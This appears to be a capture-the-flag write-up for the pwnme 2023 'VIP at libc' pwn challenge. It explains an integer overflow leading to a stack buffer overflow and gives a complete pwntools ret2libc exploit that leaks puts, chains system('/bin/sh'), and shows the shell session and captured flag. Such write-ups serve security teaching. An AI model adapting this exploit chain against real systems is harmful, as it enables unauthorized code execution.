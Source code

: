 ```yaml
---
title: "[pwnme 2023 - pwn] vip"
date: 2023-05-07
tags: ["ctf", "nasm", "pwn", "linux", "pwnme"]
---
```


## VIP at libc

> Sooo I heard that if you were VIP, you could access some specific features!
> Maybe one of those features can be used to get inside their system?
> 
> **INFO** : *This challenge need to spawn an instance, you can connect to it with netcat: nc IP PORT*
> 
> Author: Zerotistic#0001
>
> Remote service at : nc 51.254.39.184 1335

VIP at libc is a basic stack based buffer overflow challenge. To trigger the large buffer overflow in the `access_lounge` function, we have to trigger the int overflow within the `buy_ticket` function. Then it is a classic ret2libc exploit, first we leak the address of `puts` by calling `puts(&puts@got)`, then we return to the `main` function. Finally we call `system("/bin/sh")` by triggering the bof the same way.

## Final exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "vip_at_libc"
LIBC = "/home/nasm/Documents/pwn/pwnme/vip/libc.so.6"
LD = "/home/nasm/Documents/pwn/pwnme/vip/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source ~/Downloads/pwndbg/gdbinit.py
'''.format(**locals())

def exp():

    io = start()

    io.sendlineafter(b"Your username: ", b"nasm")
    io.sendlineafter(b"> \n", b"2")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"-99999")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"1")
    io.sendlineafter(b"> \n", b"4")

    rop = pwn.ROP(exe)
    rop.call('puts', [exe.got.puts])
    rop.call('main')

    io.sendlineafter(b"> ", b"4"*0x18 + rop.chain())

    io.recvuntil(b"want.\n\n\n")
    libc.address = pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00")) - 0x58ed0 - 0x28000
    pwn.log.info(f"libc: {hex(libc.address)}")

    io.sendlineafter(b"Your username: ", b"nasm")
    io.sendlineafter(b"> \n", b"2")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"-99999")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"1")
    io.sendlineafter(b"> \n", b"4")

    rop_libc = pwn.ROP(libc)
    rop_libc.call('system', [next(libc.search(b"/bin/sh\x00"))])

    print(rop_libc.dump())

    io.sendlineafter(b"> ", b"4"*0x18 + pwn.p64(rop.ret.address) + rop_libc.chain())

    io.interactive()

if __name__ == "__main__":
    exp()

"""
nasm@off:~/Documents/pwn/pwnme/vip$ python3 exploit.py REMOTE HOST=51.254.39.184 PORT=1335
[*] '/home/nasm/Documents/pwn/pwnme/vip/vip_at_libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'/home/nasm/Documents/pwn/pwnme/vip'
[*] '/home/nasm/Documents/pwn/pwnme/vip/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/pwnme/vip/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 51.254.39.184 on port 1335: Done
[*] Loaded 6 cached gadgets for 'vip_at_libc'
[*] libc: 0x7fdf08902000
[*] Loaded 218 cached gadgets for '/home/nasm/Documents/pwn/pwnme/vip/libc.so.6'
0x0000:   0x7fdf0892c3e5 pop rdi; ret
0x0008:   0x7fdf08ada698 [arg0] rdi = 140595900032664
0x0010:   0x7fdf08952d60 system
[*] Switching to interactive mode

Your lounge 444444444444444444444444\x1a@ has been created!
You can access it whenever you want.


$ cat flag.txt
PWNME{OOO0h_yoU_4re_V1P_4ND_g0t_sh3LL_w1th_LIBC??!!_S0_strong!!!e5b2cf}
"""
```